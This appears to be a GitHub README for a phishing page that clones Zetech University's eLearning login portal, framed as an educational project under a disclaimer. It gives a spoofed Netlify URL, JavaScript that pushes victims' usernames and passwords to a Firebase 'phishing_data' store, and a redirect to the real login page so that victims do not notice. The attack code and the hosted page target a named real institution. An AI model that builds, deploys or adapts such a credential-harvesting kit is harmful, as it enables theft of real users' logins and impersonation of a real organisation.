 # 🎣 Zetech eLearning Phishing Simulation (EDUCATIONAL PURPOSES ONLY)

> **⚠️ DISCLAIMER:** This project was created strictly for educational purposes as part of my cybersecurity learning. It should **never** be used against real users, systems, or without explicit written permission from the owners of the targeted platforms. Misuse of this tool can lead to serious legal consequences.

## 📚 Project Summary

This repository contains a simulated phishing page that mimics Zetech University's eLearning login portal. The purpose of this project was to understand how phishing attacks are designed and executed, as well as how user credentials can be harvested in real-time using modern technologies such as **Firebase Realtime Database**.

---

## 🎯 Objectives

- Clone a real-world login page (Zetech eLearning).
- Integrate the form with Firebase to collect credentials in real-time.
- Redirect the user to the actual login page after submission.
- Demonstrate how social engineering and spoofing tactics work in real-world scenarios.

---

## ⚙️ Technologies Used

- HTML/CSS (Exact clone of the real login page)
- Firebase Realtime Database
- JavaScript
- Bootstrap (for UI)
- Social Engineering techniques

---

## 🔐 Firebase Integration

Firebase was used to store phished credentials in real-time. Here's how it works:

1. The user enters their credentials on the spoofed page.
 ```https://elearning-zetech-ac.netlify.app```
2. JavaScript captures the input and writes it to the Firebase database:
    ```js
    firebase.database().ref('phishing_data').push({
        username: username,
        password: password,
        timestamp: new Date().toISOString()
    });
    ```
3. The user is then redirected to the **real** Zetech eLearning login page:
    ```js
    window.location.href = 'https://elearning.zetech.ac.ke/login/index.php';
    ```




